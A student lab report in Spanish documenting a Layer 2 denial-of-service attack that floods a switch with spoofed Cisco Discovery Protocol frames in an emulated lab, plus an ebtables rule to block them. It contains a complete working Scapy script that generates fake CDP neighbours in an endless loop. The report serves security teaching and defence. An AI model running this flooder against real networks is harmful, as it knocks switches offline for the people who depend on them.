



# Documentación Técnica: Ataque DoS mediante Inundación CDP y Mitigación
**Estudiante:** Emely Ventura  
**Matrícula:** 20241140  
**Fecha:** 31 de mayo de 2026  

---

## 1. Objetivo del Laboratorio
El objetivo de este laboratorio es demostrar de manera práctica el impacto de un ataque de Denegación de Servicio (DoS) en la capa de enlace de datos (Capa 2 del modelo OSI) mediante la explotación del protocolo **Cisco Discovery Protocol (CDP)**. Asimismo, se busca diseñar, implementar y validar una contra-medida técnica efectiva en el dispositivo de red utilizando `ebtables` para mitigar el tráfico malicioso y proteger la disponibilidad de la infraestructura.

## 2. Objetivo del Script y Parámetros Usados
El script `cdp_dos.py` automatiza la generación y el envío masivo de tramas CDP modificadas y falsas (*spoofed*). Al inundar la red con supuestos nuevos dispositivos vecinos, el script busca desbordar la tabla de reenvío y la base de datos de descubrimiento del switch, agotando sus recursos de memoria RAM y CPU.

### Parámetros Usados en el Script:
* **Dirección MAC de Destino (`dst`):** `01:00:0c:cc:cc:cc` (Multidifusión oficial de Cisco CDP).
* **Dirección MAC de Origen (`src`):** `RandMAC()` (Dirección MAC física aleatoria por cada paquete).
* **Device ID (`did`):** Formato dinámico aleatorio `PC-XXXXXX`.
* **Interfaz de Red (`iface`):** `eth1`.

## 3. Requisitos para Utilizar la Herramienta
1. **Sistema Operativo:** Linux (entorno de contenedores en PNETLab o Kali Linux).
2. **Lenguaje de Programación:** Python 3.x instalado.
3. **Librerías Requeridas:** Scapy (`pip install scapy`).
4. **Privilegios de Ejecución:** Permisos de superusuario (`root` o `sudo`).

## 4. Documentación del Funcionamiento del Script
El flujo lógico del script se ejecuta de la siguiente manera:
1. **Inicialización:** Se importan los módulos de Scapy necesarios para el manejo de sockets en crudo.
2. **Construcción de Bloques TLV (Type-Length-Value):** Se empaquetan manualmente campos binarios de Capa 2 para simular parámetros reales de Cisco (IDs, software operativo `Cisco IOS` y modelo `WS-C2960`).
3. **Cálculo de Checksum:** Se implementa un algoritmo matemático nativo (`cksum`) para garantizar que el switch receptor procese las tramas como legítimas.
4. **Encapsulado e Inyección:** Un bucle infinito (`while True`) invoca la función `sendp()` para transmitir el paquete de forma ininterrumpida a través de la interfaz física hasta recibir una interrupción de teclado (`Ctrl + C`).

## 5. Documentación de su Red y Topología
El entorno de red ha sido diseñado sobre la plataforma de emulación **PNETLab** utilizando aislamiento mediante contenedores Docker.
[ Atacante: docker1 ] 
             │
             │ Interfaz: eth1
             ▼
   [ Switch L2: docker3 ] (Puente lógico: br0)
   ### Cuadro de Direccionamiento e Interfaces
| Dispositivo (Nodo) | Interfaz Física | Rol en el Laboratorio | Tipo de Enlace / Segmento |
| :--- | :--- | :--- | :--- |
| **`docker1`** | `eth1` | Atacante (Origen DoS) | Enlace de Acceso hacia el Switch |
| **`docker3`** | `eth1` | Switch Virtual (Bridge) | Puerto receptor del ataque |

## 6. Capturas de Pantalla (Estructura de Evidencias)

1. **Captura 1: Estado Inicial Limpio.**


2. **Captura 2: Ejecución del Script.**


3. **Captura 3: Impacto del Desbordamiento.**


4. **Captura 4: Mitigación Exitosa.**


## 7. Documentación de Contra-medidas
Para mitigar este riesgo de forma definitiva en el entorno del puente de red, se aplicó la siguiente regla de filtrado mediante `ebtables`:

```bash
ebtables -A FORWARD -d 01:00:0c:cc:cc:cc -j DROP

Justificación Técnica de la Defensa:
La contramedida instruye a las tablas del puente (ebtables) a interceptar y descartar inmediatamente (DROP) en la Capa 2 cualquier trama destinada a la dirección MAC de multidifusión estandarizada de CDP (01:00:0c:cc:cc:cc). Posteriormente, un reinicio administrativo de la interfaz física purga la memoria residual (FDB) de registros basura, impidiendo que el ataque surta efecto y protegiendo los recursos globales del sistema.

---


```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from scapy.all import *
import struct
import random
import time

def build_cdp(iface):
    def tlv(t, v):
        return struct.pack('!HH', t, 4+len(v)) + v
        
    did = ('PC-' + '%06x' % random.randint(0,0xFFFFFF)).encode()
    ip  = bytes([24,11,random.randint(1,254),random.randint(1,254)])
    addr = struct.pack('!I',1)+struct.pack('!BB',1,1)+b'\xcc'+struct.pack('!H',4)+ip
    
    pay  = struct.pack('!BB',2,120)
    pay += struct.pack('!H',0)
    pay += tlv(1,did)+tlv(2,addr)+tlv(3,b'FastEthernet0/1')
    pay += tlv(4,struct.pack('!I',8))+tlv(5,b'Cisco IOS')+tlv(6,b'WS-C2960')
    
    def cksum(d):
        if len(d)%2: d+=b'\x00'
        s=0
        for i in range(0,len(d),2): s+=(d[i]<<8)+d[i+1]
        s=(s>>16)+(s&0xffff); s+=(s>>16)
        return ~s&0xffff
        
    ck=cksum(pay)
    pay=pay[:2]+struct.pack('!H',ck)+pay[4:]
    
    return Ether(dst='01:00:0c:cc:cc:cc',src=RandMAC())/LLC(dsap=0xaa,ssap=0xaa,ctrl=3)/SNAP(OUI=0xc,code=0x2000)/Raw(load=pay)

print('=== CDP DoS - Emely Ventura 20241140 ===')
print('Enviando paquetes CDP falsos al switch...')
sent=0

try:
    while True:
        sendp(build_cdp('eth1'), iface='eth1', verbose=False)
        sent+=1
        print(f'\rPaquetes enviados: {sent}', end='', flush=True)
        time.sleep(0.01)
except KeyboardInterrupt:
    print(f'\nAtaque detenido. Total: {sent} paquetes enviados con éxito.')
